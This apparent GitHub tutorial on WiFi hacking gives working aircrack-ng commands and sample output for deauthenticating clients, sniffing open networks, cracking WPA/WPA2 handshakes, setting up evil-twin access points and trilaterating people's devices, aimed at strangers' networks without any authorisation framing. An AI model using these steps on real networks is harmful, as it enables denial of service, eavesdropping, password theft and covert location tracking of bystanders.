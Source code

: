 # WiFi hacking

##Getting started
For many of these examples I'll be making use of the [aircrack suite](http://www.aircrack-ng.org/) which is a tool designed for WiFi hacking.

Some of these attacks require multiple WiFi devices. Your chipset may or may not have all the required built in functionality for these attacks, so I recommend buying one you know is compatible. I know the [Ralink RT3070](http://www.amazon.com/gp/product/B009UWLF62/ref=oh_aui_detailpage_o01_s00?ie=UTF8&psc=1) is completely compatible with everything in this post.
 
Many of these attacks also require your device be put into **monitor mode** which can be done with the following aircrack command

``` bash
$ airmon-ng <start|stop> <interface>
```

This creates a new interface (for this post it's assumed this is **mon0**) and puts it in monitor mode.


There are different attacks one can perform depending on a number of factors, however these attacks generally fall into one of the following categories 

 * **Denial of Service:** Prevent a user from using WiFi
 * **Content inspection:** View resources being sent to and from a user 
 * **Content injection:** Send a user malicious content they didn't ask for

Note: Sending packets (generally associated with _Content injection_ and _Denial of Service_) is a destructive process. Your device has to put out RF signals to perform these attacks, and they can be **trilaterated back to your location**. Reading packets from around you (generally associated with _Content inspection_) is a non-destructive process. It's impossible for an outside observer to know if your computer is reading packets or not, even if those packets weren't explicitly sent to your device.

I'll be talking about the types of situations you can perform each type of attack.  

##Deauthentication
Built into the 802.11 protocol there is a deauthenticate packet. This packet is normally sent to clients from an Access Point to let the client know the connection is being terminated. It doesn't matter what type of encryption the Access Point is using; these packets look the same regardless. This means they can always be used by an attacker as a _Denial of Service_ and it's often combined with other attacks discussed later. 

This type of attack generally comes in two different flavors seen below

* **Broadcast:** These can are sent from an Access Point to no specified destination address. Many clients will recognize this and drop connection. Below is an example from the aircrack suite to impersonate the Access Point 00:14:6C:7E:40:80 and send a broadcast deauth packet

``` bash
$ aireplay-ng -0 1 -a 00:14:6C:7E:40:80 mon0
```
* **Targeted:** This is sent from an Access Point to a specific client. These are generally considered more effective, as some clients ignore the broadcasts. Below is an example of targeting client 00:0F:B5:34:30:30 impersonating the same access point as above. 

```bash 
$ aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 mon0
```

Clients will generally attempt to reconnect after being deauthenticated, however these can be also be repeated (the 1 in the above commands can be changed to the number of repeat times desired).

##Open networks

An open WiFi network is a network that does not use any type of encryption between client and Access Point. These are often found in coffee shops and other public areas.

To view all the open networks in your area you can use the following aircrack command

```bash
$ sudo airodump-ng --encrypt OPN mon0
```

below is a sample output

``` bash
 CH -1 ][ Elapsed: 3 mins ][ 2015-01-11 19:44                                         
                                                                                                                                               
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                                                                
                                                                                                                                               
 06:1D:D4:2C:ED:60  -88        9        0    0  11  54e  OPN              xfinitywifi                                                          
 16:AB:F0:9F:DC:30  -77        2        0    0   6  54e  OPN              xfinitywifi                                                          
 00:00:00:00:00:00  -72       11        0    0   6  54   OPN              <length:  0>                                                         
 CE:03:FA:DC:2C:94  -49        3        0    0   1  54e. OPN              xfinitywifi                                                          
 10:5F:06:CC:36:98   -1        0        0    0 158  -1                    <length:  0>                                                         
                                                                                                                                                
 BSSID              STATION            PWR   Rate    Lost  Packets  Probes                                                                      
                                                                                                                                                
 (not associated)   64:9A:BE:E7:FD:70  -89    0 - 1      0        1                                                                             
 (not associated)   1C:1A:C0:99:13:FA  -61    0 - 1      0       20                                                                             
 (not associated)   8C:3A:E3:70:75:F1  -81    0 - 1      0        2       
```

Above are all Access Points with open networks in range. Below the Access Points are all clients either attached to open networks or not associated.

Because these access points do not require any encryption _Content inspection_ is trivial. The following command can be used to capture all traffic on an Access Point and save it to a pcap file

``` bash
$ sudo airodump-ng -c 11 --bssid 06:1D:D4:2C:ED:60 -w xfinitywifi.pcap mon0
```
Where the channel (-c 11) and bssid (--bssid 06:1D:D4:2C:ED:60) are obtained from the scan above.

Some traffic may be encrypted on the application layer with SSL/TLS, however anything that isn't can be viewed in plain text from this capture file. To view the plain text bits of it you can run **strings** on the file, or you can simply open the file up in [wireshark](https://www.wireshark.org/) for your viewing pleasure.

Clients that are connected to open networks will probably attempt to reconnect if deauthenticated. For this reason you can setup an access point with the same SSID and send deauth packets to connected users until they connect to your access point.

To setup an ad-hoc Access Point the following guide can be used for ubuntu http://ubuntuhandbook.org/index.php/2014/09/3-ways-create-wifi-hotspot-ubuntu/ 

Once you have users connected to your ad-hoc network you are in a position for both _Content Injection_ and _Content inspection_

## WPA/WPA2 networks

The only way to perform _content injection_ or _content inspection_ on a WPA/WPA2 network is to run a dictionary or brute force attack against the authentication handshake. This can be captured and performed locally for a quick crack if you're lucky. Repeating the process for scanning for networks in the previous section, you can scan for networks using the following 

```bash
$ sudo airodump-ng mon0
```
 Because we didn't specify an encryption type this time it will show all available networks. 

Select a WPA/WPA2 network you're interested in and start capturing

``` bash
$ sudo airodump-ng -c 10 --bssid 10:70:CA:BE:AB:EE -w tomsEncryptedNetwork.pcap mon0
```

When a handshake occurs it will display it along the top as seen below

```bash
  CH  9 ][ Elapsed: 4 s ][ 2007-03-24 16:58 ][ WPA handshake: 10:70:CA:BE:AB:EE
                                                                                                               
  BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB  ENC  CIPHER AUTH ESSID
                                                                                                               
  10:70:CA:BE:AB:EE   39 100       51      116   14   9  54  WPA2 CCMP   PSK  teddy                           
                                                                                                               
  BSSID              STATION            PWR  Lost  Packets  Probes                                             
                                                                                                               
  10:70:CA:BE:AB:EE  00:0F:B5:FD:FB:C2   35     0      116  
```

You can either wait for a handshake the slow way, or you can deauthenticate user's using above techniques and wait for them to reconnect.

This handshake can now be used with aircrack to perform a dictionary attack locally. The following command can be used to do this 

```bash
aircrack-ng -w passwords.txt -b 10:70:CA:BE:AB:EE tomsEncryptedNetwork.pcap
```

Where password.txt is a file of newline separated likely passwords. You can obtain such a password from a number of places; [I found a few off google](https://wiki.skullsecurity.org/Passwords)

With any luck this will identify the password used, and allow you to then repeat the process from the open network to throw up your own network with the same SSID and password as the encrypted network.

If you capture a full handshake, and you manage to crack the password, you have all the keys necessary to decrypt WPA2 traffic. Each time a client connects new keys are generated, so the handshake is specific to that session. One way to do this is in wireshark, with the following tutorial http://wiki.wireshark.org/HowToDecrypt802.11

If you know the passphrase but you did not capture the full handshake, you will probably not be able to decrypt the traffic from that dump however one thing I noticed is that the Nonces used to calculate the keys in the handshake are often very low entropy and may be predictable.

##WEP Networks

I'm not going to spend too much time talking about WEP networks because they are not as common anymore. The following guide can be used to crack WEP networks http://www.aircrack-ng.org/doku.php?id=simple_wep_crack

##No network, just clients
Clients will send probes asking for WiFi networks with known SSIDs. These are broadcasted out unencrypted. They can be viewed with the same WiFi network monitor command used above

```bash
$ sudo airodump-ng mon0
```

You'll see more of them popping up if you begin sending deauth packets to networks that have lots of clients. 

If you notice a probe for a network that might be open, like 'Public Library Wifi' or something along those lines, you can throw up an ad-hoc network with that SSID and the client will probably connect to you.

If the client is broadcasting a WPA2 network, you can throw up an SSID the same as the one they are looking for, even if the passphrase is wrong, and capture half of the 4 way handshake, and then use this half handshake to run a dictionary attack against the hashed passphrase the client sent you.

Aircrack does not have a built in way of doing this so I wrote a tool for it seen here https://github.com/dxa4481/WPA2-HalfHandshake-Crack

Once cracked, you can throw up an ad-hoc network and have the client probing for that network connect to you.

##Trilaterating clients

You'll notice from the above airodump outputs, PWR is an output for each client.

Recreate the airodump output with the following

```bash
$ sudo airodump-ng mon0
```

Although this value is greatly interfered with by walls, people, furniture, and other signal interference obstacles, with some degree of certainty it can be used to approximate that client's location.  

Three wifi devices with identical hardware will be needed at a minimum, though more devices refines the location more accurately.

I've been told due to interference with 3 devices this method will give you a resolution of about 20 feet.
